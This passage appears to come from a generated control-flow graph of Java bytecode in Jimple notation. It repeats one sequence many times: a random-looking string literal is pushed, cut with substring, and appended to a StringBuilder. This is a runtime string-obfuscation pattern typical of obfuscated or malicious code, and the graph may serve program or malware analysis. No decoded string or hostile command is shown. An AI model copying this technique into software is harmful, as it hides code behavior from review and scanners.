    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"KBd27u3\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"KBd27u3\"";
    "push \"KBd27u3\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"bV066PN\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"bV066PN\"";
    "push \"bV066PN\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"QpM7562E7\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"QpM7562E7\"";
    "push \"QpM7562E7\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"LCe63LllEv\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"LCe63LllEv\"";
    "push \"LCe63LllEv\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"b274dGH\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"b274dGH\"";
    "push \"b274dGH\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Gl696cHPt\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Gl696cHPt\"";
    "push \"Gl696cHPt\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"3rdf6J6\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"3rdf6J6\"";
    "push \"3rdf6J6\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"KSe2fz\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"KSe2fz\"";
    "push \"KSe2fz\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"D6C823Q\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"D6C823Q\"";
    "push \"D6C823Q\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"AHsuh97bJB\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"AHsuh97bJB\"";
    "push \"AHsuh97bJB\""->"push 5";
    "push 5"->"push 8";
    "push 8"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Tc69Kaz\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Tc69Kaz\"";
    "push \"Tc69Kaz\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"zA66kW8\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"zA66kW8\"";
    "push \"zA66kW8\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"5L28Ty\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"5L28Ty\"";
    "push \"5L28Ty\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"t0te28Pu\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"t0te28Pu\"";
    "push \"t0te28Pu\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"A06aRNqc\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"A06aRNqc\"";
    "push \"A06aRNqc\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ZrWd6178KJ\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ZrWd6178KJ\"";
    "push \"ZrWd6178KJ\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"3G6616G1E\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"3G6616G1E\"";
    "push \"3G6616G1E\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"dc2e6Jp63\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"dc2e6Jp63\"";
    "push \"dc2e6Jp63\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"MBc6aP\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"MBc6aP\"";
    "push \"MBc6aP\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0s16ZE\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0s16ZE\"";
    "push \"0s16ZE\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"D76e67df\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"D76e67df\"";
    "push \"D76e67df\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"QU2e5H5K\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"QU2e5H5K\"";
    "push \"QU2e5H5K\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"hG379Yh\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"hG379Yh\"";
    "push \"hG379Yh\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6s73HFM3d\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6s73HFM3d\"";
    "push \"6s73HFM3d\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"8U746Rc\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"8U746Rc\"";
    "push \"8U746Rc\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"P356wvS\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"P356wvS\"";
    "push \"P356wvS\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"VVjd2bP\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"VVjd2bP\"";
    "push \"VVjd2bP\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"aje67HY3\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"aje67HY3\"";
    "push \"aje67HY3\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Yb657uu\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Yb657uu\"";
    "push \"Yb657uu\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"lny45mV4\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"lny45mV4\"";
    "push \"lny45mV4\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Za36cP\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Za36cP\"";
    "push \"Za36cP\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"CK56Tp\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"CK56Tp\"";
    "push \"CK56Tp\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"qb372d\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"qb372d\"";
    "push \"qb372d\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Ucu57Yr\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Ucu57Yr\"";
    "push \"Ucu57Yr\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"PCan269bJ\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"PCan269bJ\"";
    "push \"PCan269bJ\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"q474Zy\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"q474Zy\"";
    "push \"q474Zy\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"4rE79vAgv\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"4rE79vAgv\"";
    "push \"4rE79vAgv\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"TQY4d6Fn\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"TQY4d6Fn\"";
    "push \"TQY4d6Fn\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Qr16HD\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Qr16HD\"";
    "push \"Qr16HD\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"kee6rrC\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"kee6rrC\"";
    "push \"kee6rrC\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Tfy167aD\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Tfy167aD\"";
    "push \"Tfy167aD\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"dB657vTp\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"dB657vTp\"";
    "push \"dB657vTp\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"8t22jM\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"8t22jM\"";
    "push \"8t22jM\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"3S8298v\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"3S8298v\"";
    "push \"3S8298v\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Vze20bcB\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Vze20bcB\"";
    "push \"Vze20bcB\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"r3213LC\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"r3213LC\"";
    "push \"r3213LC\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"nlGd20fK\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"nlGd20fK\"";
    "push \"nlGd20fK\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"5z6e77P\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"5z6e77P\"";
    "push \"5z6e77P\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"P556c62\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"P556c62\"";
    "push \"P556c62\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"na6cps\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"na6cps\"";
    "push \"na6cps\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"n4292Dt\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"n4292Dt\"";
    "push \"n4292Dt\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"G2026Hs\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"G2026Hs\"";
    "push \"G2026Hs\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Zq262c0e\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Zq262c0e\"";
    "push \"Zq262c0e\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"SeZ1028nJ\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"SeZ1028nJ\"";
    "push \"SeZ1028nJ\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"8YJW864lU\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"8YJW864lU\"";
    "push \"8YJW864lU\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"yu92hs\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"yu92hs\"";
    "push \"yu92hs\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"LVdV03cPd\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"LVdV03cPd\"";
    "push \"LVdV03cPd\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"4M3d2PD\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"4M3d2PD\"";
    "push \"4M3d2PD\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"sE034QAWQ\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"sE034QAWQ\"";
    "push \"sE034QAWQ\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Pe32sCWvs\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Pe32sCWvs\"";
    "push \"Pe32sCWvs\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0Pc92Vr\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0Pc92Vr\"";
    "push \"0Pc92Vr\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"an97bkw\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"an97bkw\"";
    "push \"an97bkw\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"yZ7472TP\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"yZ7472TP\"";
    "push \"yZ7472TP\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"q3279D3y\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"q3279D3y\"";
    "push \"q3279D3y\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0aA7bddAr\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0aA7bddAr\"";
    "push \"0aA7bddAr\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"226a6nPZ\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"226a6nPZ\"";
    "push \"226a6nPZ\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"q717eLz\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"q717eLz\"";
    "push \"q717eLz\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
